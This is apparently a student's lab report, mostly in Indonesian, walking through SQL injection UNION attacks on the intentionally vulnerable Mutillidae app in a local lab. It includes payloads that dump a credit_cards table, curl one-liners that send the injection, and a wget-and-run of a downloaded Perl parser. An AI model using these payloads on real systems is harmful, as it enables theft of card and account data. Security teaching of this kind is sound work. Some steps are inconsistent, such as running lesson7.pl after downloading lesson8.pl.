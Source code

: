 # Lesson 8 : SQL Injection Union Exploit #1

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/preferences.png "Home page")
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan **Manual proxy**
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn off intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off (**intercept is off**), jika dalam keadaan on maka set ke off
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_1.png "Home page")
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_1.png "Home page")

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula **20** menjadi **100**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_2.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/.png "Home page")

## SQL Injection (Union Example #3)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula **20** menjadi **100**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_3.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_2.png "Home page")

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_4.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_3.png "Home page")

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
   ```bash
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/run_curl.png "Home page")

## Perl Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/cat_lesson.png "Home page")

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/download_perl.png "Home page")

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```bash
   ./lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/run_perl.png "Home page")